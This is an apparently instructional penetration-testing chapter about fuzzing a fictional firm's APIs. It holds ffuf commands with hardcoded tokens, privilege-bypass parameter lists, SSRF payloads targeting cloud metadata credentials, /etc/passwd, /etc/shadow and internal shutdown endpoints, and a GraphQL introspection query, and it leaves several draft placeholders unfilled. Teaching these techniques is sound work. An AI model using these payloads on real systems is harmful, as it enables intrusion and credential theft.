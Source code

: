 = Chapter 7: The Mobile Connection - API Exploitation
:pp: {plus}{plus}

_"Their mobile apps are the weak drawbridge in the castle walls."_

'''

Your client-side XSS exploitation provided persistent access to Dr. Sarah Chen's workstation, but as you analyze her browser sessions, you discover something that makes your systematic exploitation exponentially more powerful: extensive API traffic to mobile and internal endpoints that bypass many of the security controls you've encountered so far.

In her browser's developer tools, you find evidence of comprehensive API communications:

[,javascript]
----
// Found in browser network traffic
const API_ENDPOINTS = [
    "GET /api/v2/mobile/algorithms/status",
    "POST /api/v2/mobile/trading/execute",
    "GET /api/v2/mobile/user/permissions",
    "POST /api/v2/internal/algorithms/control",
    "GET /api/v2/admin/system/status",
    "POST /api/v2/graphql"
];

// Hardcoded development tokens in mobile sync scripts
const MOBILE_DEV_TOKEN = "castle_mobile_dev_2024_temporary_delete_before_prod";
const INTERNAL_API_KEY = "argos_internal_service_key_2024";
const GRAPHQL_ADMIN_TOKEN = "gql_admin_debug_access_token";
----

Castle Securities operates a sophisticated API ecosystem that includes mobile endpoints for executive algorithm monitoring, internal service APIs for algorithm control, and GraphQL interfaces for complex data relationships. These APIs were designed for trusted clients and internal services--creating systematic fuzzing opportunities that public web applications don't expose.

Your mission: apply comprehensive API fuzzing using FFUF, OWASP ZAP, and specialized techniques to discover business logic vulnerabilities, authorization bypasses, data exposure, and service integration flaws across multiple API architectures. You'll learn that APIs designed for trusted clients often have fundamentally different security assumptions than public web applications.

But first, you need to understand what makes API fuzzing a distinct discipline requiring different tools, techniques, and systematic approaches.

'''

== Understanding API Architecture as a Systematic Fuzzing Target

API fuzzing represents a fundamental shift from web application testing because APIs are designed for machine-to-machine communication with different trust models, data structures, and business logic implementation patterns. This creates attack surfaces that web application security testing cannot discover or exploit.

The critical insight is that APIs implement business logic directly in request processing without the user interface constraints that limit web application attacks. Parameters that would never appear in HTML forms are exposed through API endpoints, creating systematic fuzzing opportunities across authentication, authorization, business logic, and service integration layers.

=== API vs. Web Application Attack Surface Comparison

The difference between web application and API attack surfaces becomes clear when examining actual request structures:

*Traditional Web Application Login:*

[,html]
----
<form action="/login" method="POST">
    <input name="username" type="text">
    <input name="password" type="password">
    <input name="csrf_token" type="hidden" value="abc123">
    <button type="submit">Login</button>
</form>
----

*API Authentication Endpoint:*

[,json]
----
POST /api/v2/auth/login
{
    "username": "user@example.com",
    "password": "password123",
    "device_id": "mobile_device_abc123",
    "app_version": "2.4.1",
    "platform": "iOS",
    "client_capabilities": ["biometric", "secure_enclave", "push_notifications"],
    "client_info": {
        "user_agent": "Castle-iOS/2.4.1",
        "device_model": "iPhone15Pro",
        "os_version": "17.1",
        "app_build": "release_candidate",
        "debug_enabled": false
    },
    "session_context": {
        "location": {"lat": 40.7589, "lng": -73.9851},
        "network_type": "wifi",
        "security_level": "standard",
        "previous_session": "trusted_device",
        "biometric_available": true
    },
    "business_context": {
        "trading_session": "active",
        "risk_profile": "conservative",
        "compliance_level": "standard",
        "admin_functions": false
    }
}
----

The API exposes 15+ parameter groups containing 30+ individual parameters that could harbor authorization bypass opportunities, privilege escalation vectors, business logic manipulation capabilities, or service integration vulnerabilities that web application testing would never encounter.

=== API-Specific Attack Surface Categories

APIs create unique attack surfaces across multiple architectural layers:

*Business Logic Parameter Exposure*: APIs often accept parameters that directly control business logic behavior (`admin_mode`, `bypass_validation`, `elevated_privileges`, `emergency_access`) rather than hiding this logic in server-side code.

*Client Context and State Management*: APIs receive extensive metadata about client state, capabilities, location, and context that may affect authorization decisions, business logic processing, and service integration behavior.

*Service Integration and Internal Communication*: APIs often expose parameters related to service-to-service communication (`internal_service_auth`, `cross_service_tokens`, `microservice_routing`) that may enable lateral movement and privilege escalation across distributed systems.

*Data Structure and Query Flexibility*: APIs accept structured data (JSON, XML, GraphQL queries) that creates parameter pollution, injection, type confusion, and query manipulation opportunities not available in form-based web applications.

*Protocol and Format Diversity*: APIs support multiple content types, authentication mechanisms, and communication protocols that multiply attack surfaces and create protocol confusion opportunities.

Understanding these API-specific attack surfaces is essential because API fuzzing requires testing parameters, workflows, and architectural patterns that web application security testing would never encounter or be able to exploit effectively.

'''

== Systematic API Discovery Using Professional Tools

Professional API fuzzing begins with comprehensive discovery using FFUF and OWASP ZAP to map endpoints, parameters, authentication mechanisms, and business logic implementation. This discovery phase must identify not just what endpoints exist, but how they're organized, what business functions they implement, and how they integrate with distributed service architectures.

=== Advanced FFUF API Endpoint Discovery

API endpoints follow different organizational patterns than web applications, with version-specific hierarchies, business function groupings, service-oriented architecture patterns, and internal vs. external access boundaries that require specialized discovery approaches.

[PLACEHOLDER: FFUF API endpoint discovery with comprehensive API-specific wordlists and systematic enumeration strategies. Purpose: Demonstrates systematic API endpoint discovery using FFUF with business logic-focused wordlists, version enumeration, service integration discovery, and internal endpoint identification. Shows professional FFUF configuration for comprehensive API assessment including authentication management, rate limiting optimization, and result processing for multi-API discovery campaigns across different service architectures.]

FFUF API discovery requires systematic wordlist strategies that target API-specific organizational patterns:

[,bash]
----
# Comprehensive API endpoint discovery with business logic focus
ffuf -w api_endpoints_comprehensive.txt \
     -u https://api.castle-securities.com/FUZZ \
     -H "Authorization: Bearer ${MOBILE_DEV_TOKEN}" \
     -H "X-API-Key: ${INTERNAL_API_KEY}" \
     -H "User-Agent: Castle-Mobile/2.4.1" \
     -H "Content-Type: application/json" \
     -H "X-Client-Type: mobile" \
     -H "X-Service-Auth: internal" \
     -mc 200,201,204,301,302,401,403,405,429 \
     -fc 404,500,502,503 \
     -o api_discovery_comprehensive.json \
     -of json \
     -rate 100 \
     -t 10 \
     -timeout 30
----

Comprehensive API wordlists include multiple discovery categories:

*Version and API Structure Discovery:*

----
/api/
/api/v1/
/api/v2/
/api/v3/
/api/internal/
/api/external/
/api/mobile/
/api/admin/
/api/debug/
/api/test/
/api/staging/
/api/beta/
----

*Business Function Endpoints:*

----
/auth/
/authentication/
/session/
/users/
/accounts/
/trading/
/orders/
/portfolio/
/positions/
/algorithms/
/strategies/
/performance/
/analytics/
/risk/
/compliance/
/audit/
/reporting/
/notifications/
/alerts/
----

*Service Integration and Administrative Functions:*

----
/admin/
/management/
/system/
/health/
/status/
/metrics/
/monitoring/
/logging/
/backup/
/sync/
/integration/
/webhooks/
/callbacks/
/internal/
/service/
/microservice/
/graphql/
/websocket/
----

Your systematic API discovery reveals Castle Securities' comprehensive API architecture:

----
Authentication and Session Management:
/api/v2/auth/ - Primary authentication services
/api/v2/session/ - Session management and persistence
/api/v2/oauth/ - OAuth integration and token management

Trading and Financial Operations:
/api/v2/trading/ - Trading execution and order management
/api/v2/portfolio/ - Portfolio data and performance metrics
/api/v2/positions/ - Current trading positions and P&L
/api/v2/risk/ - Risk management and compliance monitoring
/api/v2/compliance/ - Regulatory reporting and audit trails

Algorithm and Research Systems:
/api/v2/algorithms/ - Algorithm monitoring and control
/api/v2/research/ - Research data and analysis tools
/api/v2/analytics/ - Performance analytics and reporting
/api/v2/backtesting/ - Algorithm backtesting and validation

Administrative and Internal Services:
/api/v2/admin/ - Administrative functions (403 Forbidden with mobile token)
/api/v2/internal/ - Internal service endpoints (401 Unauthorized)
/api/v2/debug/ - Debug information (200 OK with dev token)
/api/v2/system/ - System monitoring and health checks
/api/v2/graphql - GraphQL query interface (200 OK)

Mobile and Client Services:
/api/v2/mobile/ - Mobile-specific endpoints and functionality
/api/v2/sync/ - Data synchronization for offline usage
/api/v2/push/ - Push notification configuration and management
----

This comprehensive discovery reveals business logic organization, identifies high-value targets for systematic exploitation, and maps service integration patterns that enable lateral movement and privilege escalation.

=== OWASP ZAP Comprehensive API Security Testing

OWASP ZAP provides advanced API security testing capabilities including automated parameter discovery, authentication context management, business logic vulnerability detection, and API specification-based testing that complements FFUF's discovery capabilities.

[PLACEHOLDER: OWASP ZAP comprehensive API testing configuration for systematic API security assessment across multiple service architectures. Purpose: Demonstrates professional ZAP configuration for API testing including API-specific scanning policies, multi-authentication context management, automated parameter discovery and testing, business logic vulnerability detection, and API specification parsing. Shows integration with FFUF discovery results for comprehensive API security assessment including GraphQL testing, WebSocket API analysis, and microservice security evaluation.]

ZAP API testing provides dynamic analysis and business logic testing that static discovery cannot accomplish:

*API Spider and Discovery Enhancement*: ZAP's API spider enhances FFUF discovery by parsing API specifications, following API relationships, and discovering dynamic endpoints through authentication context traversal.

*Multi-Authentication Context Management*: ZAP maintains multiple authentication contexts simultaneously, enabling testing across different user roles, service accounts, and privilege levels with automatic token refresh and session management.

*Automated Parameter Discovery and Injection Testing*: ZAP automatically discovers API parameters through traffic analysis and specification parsing, then systematically tests for injection vulnerabilities, type confusion, and business logic bypasses.

*Business Logic and Authorization Testing*: ZAP identifies API-specific vulnerabilities including excessive data exposure, broken authentication, insufficient rate limiting, and authorization bypass opportunities through systematic business logic testing.

*API Specification and GraphQL Testing*: ZAP parses OpenAPI specifications and GraphQL schemas to generate comprehensive test cases that validate security controls against documented API behavior.

Configuring ZAP for comprehensive Castle Securities API analysis:

[,python]
----
# ZAP API testing configuration
zap_config = {
    "authentication_contexts": [
        {"name": "mobile_user", "token": MOBILE_DEV_TOKEN},
        {"name": "internal_service", "key": INTERNAL_API_KEY},
        {"name": "graphql_admin", "token": GRAPHQL_ADMIN_TOKEN}
    ],
    "api_specifications": [
        "/api/v2/swagger.json",
        "/api/v2/openapi.yaml",
        "/api/v2/graphql?introspection=true"
    ],
    "scanning_policies": [
        "API_Security_Comprehensive",
        "Business_Logic_Testing",
        "Authorization_Bypass_Testing"
    ]
}
----

Running ZAP against Castle Securities' API infrastructure with discovered authentication tokens reveals:

*Immediate Security Findings*: Exposed debug endpoints, inadequate rate limiting, missing authentication on internal services, and business logic validation bypasses across multiple API services.

*API Specification Violations*: Documented security controls that aren't implemented, undocumented endpoints with elevated privileges, and API behavior that contradicts documented authorization requirements.

*Business Logic Vulnerabilities*: Trading limit bypasses, algorithm control authorization gaps, and administrative function access through parameter manipulation.

'''

== Systematic API Parameter Fuzzing and Injection Testing

APIs accept structured parameters that create systematic fuzzing opportunities beyond simple string injection. Professional API parameter testing requires understanding JSON structure manipulation, parameter type confusion, business logic parameter injection, and cross-service parameter propagation.

=== Advanced JSON Parameter Fuzzing with FFUF

API endpoints accept JSON parameters that can be manipulated through systematic fuzzing to test input validation, business logic, authorization controls, and service integration security.

[PLACEHOLDER: FFUF advanced JSON parameter fuzzing framework for systematic API parameter testing including nested parameter manipulation, type confusion testing, business logic parameter injection, and cross-service parameter propagation testing. Purpose: Demonstrates comprehensive JSON parameter fuzzing using FFUF including parameter injection strategies, type confusion attacks, nested object manipulation, array parameter testing, and business logic bypass through systematic parameter manipulation. Shows professional JSON fuzzing techniques for enterprise API security assessment.]

JSON parameter fuzzing requires systematic approaches that test multiple vulnerability classes simultaneously:

*Systematic Parameter Injection*: Adding unauthorized parameters to test for privilege escalation and business logic bypass:

[,bash]
----
# FFUF JSON parameter injection testing
ffuf -w business_logic_parameters.txt \
     -u https://api.castle-securities.com/api/v2/trading/order \
     -X POST \
     -H "Authorization: Bearer ${MOBILE_DEV_TOKEN}" \
     -H "Content-Type: application/json" \
     -d '{"symbol": "AAPL", "quantity": 100, "FUZZ": true}' \
     -mc 200,201,400,403 \
     -fc 401,404 \
     -o parameter_injection_results.json
----

Parameter injection wordlist includes business logic controls:

----
admin
debug
elevated
bypass_auth
override_limits
emergency_access
internal_service
system_admin
compliance_override
risk_override
algorithm_control
trading_override
----

*Type Confusion and Data Structure Testing*: Testing different data types and structures for the same parameters:

[,json]
----
// Original trading request
{
    "symbol": "AAPL",
    "quantity": 100,
    "order_type": "market"
}

// Type confusion testing variations
{
    "symbol": "AAPL",
    "quantity": "100",           // String instead of integer
    "order_type": true           // Boolean instead of string
}

{
    "symbol": ["AAPL", "MSFT"],  // Array instead of string
    "quantity": -100,            // Negative value testing
    "order_type": {"type": "market", "admin": true}  // Object injection
}
----

*Nested Parameter and Object Structure Manipulation*: Testing complex object structures for injection and privilege escalation opportunities:

[,json]
----
{
    "trade_data": {
        "symbol": "AAPL",
        "quantity": 100
    },
    "user_context": {
        "user_id": 1247,
        "role": "trader",
        "admin_override": true,
        "privileges": ["trading", "admin", "algorithm_control"]
    },
    "system_context": {
        "source": "mobile",
        "internal_service": true,
        "bypass_validation": true,
        "emergency_mode": true
    }
}
----

Your systematic JSON parameter fuzzing against Castle Securities' API endpoints reveals multiple critical parameter injection vulnerabilities:

----
Trading API Parameter Injection:
- "admin_override": true bypasses trading limits
- "risk_override": "admin" disables risk management
- "emergency_trading": true enables after-hours trading
- "compliance_bypass": true skips regulatory checks

Algorithm API Parameter Injection:
- "developer_access": true enables algorithm modification
- "safety_disabled": true removes algorithm safeguards
- "debug_mode": "maximum" exposes algorithm internals
- "admin_control": true provides administrative algorithm access

Authentication API Parameter Injection:
- "admin": true elevates user privileges
- "service_account": true provides service-level access
- "bypass_mfa": true skips multi-factor authentication
- "internal_auth": true bypasses external authentication
----

=== Business Logic Parameter Testing and Workflow Manipulation

APIs often accept parameters that directly control business logic behavior, creating opportunities for business rule bypass, workflow manipulation, and privilege escalation through systematic parameter testing.

[PLACEHOLDER: API business logic parameter testing framework using systematic parameter manipulation and workflow analysis. Purpose: Tests API business logic through comprehensive parameter manipulation including trading workflow bypass, algorithm control logic testing, administrative function access, and cross-service privilege escalation. Shows business logic vulnerability discovery through systematic API parameter testing including workflow sequence manipulation, state transition bypass, and business rule violation testing.]

Business logic parameter testing focuses on parameters that affect application behavior, workflow enforcement, and business rule implementation:

*Trading Logic and Risk Management Testing*: Financial APIs expose trading controls through business logic parameters:

[,json]
----
// Normal trading request with business logic constraints
{
    "symbol": "AAPL",
    "quantity": 100,
    "order_type": "market",
    "user_id": 1247
}

// Business logic bypass testing
{
    "symbol": "AAPL",
    "quantity": 10000000,          // Quantity exceeds normal limits
    "order_type": "market",
    "user_id": 1247,
    "risk_override": true,         // Bypass risk management
    "limit_bypass": "admin",       // Administrative limit override
    "emergency_trading": true,     // Emergency trading mode
    "compliance_exempt": true,     // Regulatory compliance bypass
    "after_hours": true,           // Outside trading hours
    "admin_authorized": true       // Administrative authorization
}
----

*Algorithm Control and Management Logic*: Algorithm management APIs expose control parameters that affect algorithm behavior:

[,json]
----
// Algorithm modification with business logic bypass
{
    "algorithm": "argos",
    "operation": "modify_parameters",
    "user_id": 1247,
    "admin_authorized": true,           // Administrative authorization
    "safety_disabled": true,           // Safety mechanism bypass
    "emergency_control": true,         // Emergency control mode
    "developer_override": true,        // Developer access override
    "parameter_changes": {
        "risk_threshold": 0.95,        // Remove risk controls
        "trading_frequency": "maximum", // Maximum trading frequency
        "position_multiplier": 10.0    // 10x position sizing
    },
    "validation_bypass": "admin",      // Validation bypass
    "audit_exempt": true               // Audit trail exemption
}
----

*Administrative Function and System Control Logic*: Administrative APIs accept parameters that control system behavior and privilege levels:

[,json]
----
// Administrative function access with privilege escalation
{
    "function": "system_status",
    "user_id": 1247,
    "admin_mode": true,                // Administrative mode
    "service_override": true,          // Service override capability
    "debug_level": "maximum",          // Maximum debug access
    "internal_access": true,           // Internal system access
    "cross_service_auth": true,        // Cross-service authentication
    "privilege_inheritance": "admin",  // Privilege inheritance
    "system_control": true             // System control capability
}
----

Your comprehensive business logic parameter testing reveals extensive business rule bypass opportunities:

----
Trading Logic Bypass Results:
- Trading limits removed through "risk_override": true
- Regulatory compliance bypassed via "compliance_exempt": true
- After-hours trading enabled through "emergency_trading": true
- Position sizing limits bypassed via "limit_bypass": "admin"

Algorithm Control Access:
- Real-time algorithm modification through "developer_override": true
- Safety mechanisms disabled via "safety_disabled": true
- Algorithm parameters modified through "admin_authorized": true
- Validation bypassed through "validation_bypass": "admin"

Administrative Privilege Escalation:
- Administrative functions accessed via "admin_mode": true
- Service-level privileges through "service_override": true
- Cross-service authentication via "cross_service_auth": true
- System control capabilities through "system_control": true
----

'''

== Server-Side Request Forgery and Internal Network Exploitation

APIs often implement functionality that makes requests to other systems, creating Server-Side Request Forgery (SSRF) opportunities when API parameters are processed by backend services. API SSRF vulnerabilities are particularly dangerous because they can provide access to internal networks, cloud metadata, and service-to-service communication channels.

=== Systematic SSRF Discovery in API Endpoints

API SSRF vulnerabilities exist in business logic functionality that integrates with external services, generates reports, validates webhooks, or synchronizes data across distributed systems.

[PLACEHOLDER: SSRF discovery and exploitation framework for API endpoints using systematic parameter testing and internal network enumeration. Purpose: Tests API endpoints for SSRF vulnerabilities including internal network access, cloud metadata services access, service enumeration, and protocol manipulation. Shows SSRF testing methodology specific to API environments including URL parameter testing, callback manipulation, webhook exploitation, and internal service discovery through SSRF.]

API SSRF testing requires systematic approaches that target business logic functionality:

*Report Generation and Data Integration SSRF*: APIs that generate reports or integrate external data may fetch resources from URLs:

[,bash]
----
# FFUF SSRF testing in report generation endpoints
ffuf -w ssrf_payloads.txt \
     -u https://api.castle-securities.com/api/v2/reports/generate \
     -X POST \
     -H "Authorization: Bearer ${MOBILE_DEV_TOKEN}" \
     -H "Content-Type: application/json" \
     -d '{"report_type": "portfolio", "data_source": "FUZZ", "format": "json"}' \
     -mc 200,201,500,502 \
     -fc 400,404
----

SSRF payload wordlist targeting internal infrastructure:

----
http://169.254.169.254/latest/meta-data/
http://127.0.0.1:6379/info
http://127.0.0.1:9200/_cluster/health
http://internal-service:8080/admin
http://algorithm-control:9090/status
http://trading-engine:7777/health
file:///etc/passwd
file:///var/log/application.log
----

*Webhook and Integration Callback SSRF*: APIs that validate webhooks or handle callbacks may make requests to attacker-controlled URLs:

[,json]
----
// Webhook validation SSRF testing
{
    "webhook_url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
    "integration_endpoint": "http://internal-admin:8080/users",
    "callback_url": "http://127.0.0.1:5432/admin",
    "notification_endpoint": "file:///etc/shadow",
    "health_check_url": "http://algorithm-control.internal:9090/shutdown"
}
----

*Data Synchronization and Backup SSRF*: APIs that synchronize data or perform backups may access internal storage systems:

[,json]
----
// Data synchronization SSRF testing
{
    "sync_endpoint": "http://internal-database:5432/admin",
    "backup_location": "http://backup-service:3333/admin/dump",
    "storage_url": "file:///var/backup/sensitive_data.tar.gz",
    "replication_target": "http://127.0.0.1:27017/admin"
}
----

Your systematic SSRF testing discovers extensive internal network access through Castle Securities' API infrastructure:

----
Cloud Metadata Access:
- Report generation API: data_source="http://169.254.169.254/latest/meta-data/"
  Returns AWS metadata including IAM roles and instance credentials

Internal Service Discovery:
- Webhook validation: webhook_url="http://internal-admin:8080/users"
  Returns internal user management system administrative interface
- Integration testing: endpoint="http://algorithm-control:9090/status"
  Provides algorithm control service status and configuration

Database and Storage Access:
- Backup API: backup_location="http://internal-db:5432/admin"
  Returns database administrative interface access
- Sync service: sync_endpoint="http://127.0.0.1:6379/info"
  Provides Redis cache server information and administrative access

File System Access:
- Report generation: data_source="file:///etc/passwd"
  Returns system password file contents
- Backup service: location="file:///var/log/trading.log"
  Provides access to sensitive trading system logs
----

=== Advanced SSRF Exploitation and Lateral Movement

SSRF vulnerabilities provide pathways for lateral movement across internal networks, service enumeration, and access to administrative interfaces that external testing cannot reach.

[PLACEHOLDER: Advanced SSRF exploitation framework for lateral movement and internal network enumeration including cloud metadata exploitation, internal service mapping, administrative interface access, and cross-service authentication bypass. Purpose: Demonstrates comprehensive SSRF exploitation including internal network mapping, service enumeration, cloud infrastructure access, and lateral movement techniques through API SSRF vulnerabilities. Shows advanced SSRF techniques including protocol manipulation, DNS rebinding, and service-to-service authentication bypass.]

Advanced SSRF exploitation enables comprehensive internal network access:

*Cloud Infrastructure and Metadata Exploitation*: SSRF access to cloud metadata services provides credentials and infrastructure information:

[,json]
----
// AWS metadata exploitation through SSRF
{
    "data_source": "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
    "metadata_endpoint": "http://169.254.169.254/latest/user-data/",
    "instance_info": "http://169.254.169.254/latest/meta-data/instance-id"
}

// Results provide:
// - IAM role credentials for AWS services
// - Instance configuration and network information
// - User data containing deployment secrets
----

*Internal Service Enumeration and Administrative Access*: SSRF enables discovery and access to internal administrative interfaces:

[,json]
----
// Internal service administrative access
{
    "admin_endpoint": "http://trading-engine.internal:8080/admin/shutdown",
    "monitoring_url": "http://monitoring.internal:9090/metrics",
    "database_admin": "http://postgres.internal:5432/admin",
    "algorithm_control": "http://argos-control.internal:7777/admin/parameters"
}

// Results provide:
// - Trading engine administrative control
// - System monitoring and metrics access
// - Database administrative interface access
// - Algorithm control administrative functions
----

*Cross-Service Authentication and Privilege Escalation*: SSRF can bypass service-to-service authentication and inherit elevated privileges:

[,json]
----
// Service-to-service authentication bypass
{
    "service_endpoint": "http://internal-auth:8080/service/authenticate",
    "cross_service_token": "http://token-service:9090/admin/generate",
    "privilege_endpoint": "http://auth-service:7777/admin/elevate"
}
----

Your advanced SSRF exploitation provides comprehensive internal network access:

----
Internal Network Mapping:
- Discovered 15 internal services through systematic SSRF enumeration
- Administrative interfaces accessible on trading-engine, algorithm-control, and monitoring systems
- Database administrative access through postgres.internal and redis.internal

Cloud Infrastructure Access:
- AWS metadata access provides IAM credentials for castle-securities-prod role
- EC2 instance information reveals complete infrastructure topology
- User data contains deployment keys and service configuration secrets

Cross-Service Privilege Escalation:
- Service-to-service authentication bypass through auth-service.internal
- Administrative token generation through token-service administrative interface
- Cross-service privilege inheritance enabling lateral movement across all internal systems
----

'''

== GraphQL API Exploitation and Advanced Query Manipulation

Your API reconnaissance revealed that Castle Securities implements GraphQL endpoints for complex data relationships and algorithmic trading queries. GraphQL creates unique attack surfaces because it allows arbitrary query construction and often exposes more data than REST APIs while implementing different authorization patterns.

=== GraphQL Schema Discovery and Introspection

GraphQL APIs expose their complete schema through introspection queries, revealing all available data types, relationships, and operations that can be systematically exploited for unauthorized data access.

[PLACEHOLDER: GraphQL schema discovery and comprehensive introspection framework including schema enumeration, type discovery, relationship mapping, and mutation analysis. Purpose: Demonstrates systematic GraphQL schema analysis including introspection query construction, schema parsing and analysis, data relationship mapping, and operation discovery. Shows professional GraphQL security assessment including hidden type discovery, deprecated field analysis, and administrative operation identification.]

GraphQL schema introspection provides complete API intelligence:

*Basic Schema Introspection and Type Discovery*:

[,bash]
----
# FFUF GraphQL endpoint discovery
ffuf -w graphql_paths.txt \
     -u https://api.castle-securities.com/FUZZ \
     -X POST \
     -H "Authorization: Bearer ${GRAPHQL_ADMIN_TOKEN}" \
     -H "Content-Type: application/json" \
     -d '{"query": "query { __schema { queryType { name } } }"}' \
     -mc 200,400 \
     -fc 404,500
----

GraphQL paths wordlist:

----
/graphql
/api/graphql
/api/v2/graphql
/query
/api/query
/admin/graphql
/internal/graphql
----

*Comprehensive Schema Introspection Query*:

[,graphql]
----
# Complete schema introspection for Castle Securities GraphQL
query IntrospectionQuery {
  __schema {
    queryType { name }
    mutationType { name }
    subscriptionType { name }
    types {
      ...FullType
    }
    directives {
      name
      description
      locations
      args {
        ...InputValue
      }
    }
  }
}

fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args {
      ...InputValue
    }
    type {
      ...TypeRef
    }
    isDeprecated
    deprecationReason
  }
  inputFields {
    ...InputValue
  }
  interfaces {
    ...TypeRef
  }
  enumValues(includeDeprecated: true) {
    name
    description
    isDeprecated
    deprecationReason
  }
  possibleTypes {
    ...TypeRef
  }
}

fragment InputValue on __InputValue {
  name
  description
  type { ...TypeRef }
  defaultValue
}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }
            }
          }
        }
      }
    }
  }
}
----

Your GraphQL schema introspection reveals Castle Securities' comprehensive data model:

[,graphql]
----
# Discovered GraphQL schema types
type Query {
  user(id: ID!): User
  algorithm(id: ID!): Algorithm
  portfolio(id: ID!): Portfolio
  tradingPosition(id: ID!): TradingPosition
  performanceMetrics(algorithmId: ID!): PerformanceMetrics
  internalSystemStatus: SystemStatus    # Admin-only query
  debugInformation: DebugInfo           # Debug access required
}

type Mutation {
  updateAlgorithm(id: ID!, input: AlgorithmInput!): Algorithm
  executeTrade(input: TradeInput!): TradeResult
  modifyRiskParameters(algorithmId: ID!, parameters: RiskInput!): Algorithm
  adminSystemControl(operation: AdminOperation!): SystemResult  # Admin-only
}

type User {
  id: ID!
  email: String!
  role: UserRole!
  permissions: [Permission!]!
  portfolios: [Portfolio!]!
  algorithms: [Algorithm!]!
  adminFunctions: AdminFunctions       # Conditional field
}

type Algorithm {
  id: ID!
  name: String!
  description: String
  sourceCode: String                   # Restricted field
  parameters: AlgorithmParameters!
  performance: PerformanceMetrics!
  tradingPositions: [TradingPosition!]!
  riskMetrics: RiskMetrics!
  controlInterface: ControlInterface   # Admin access required
  internalConfig: InternalConfig       # Debug access required
}
----

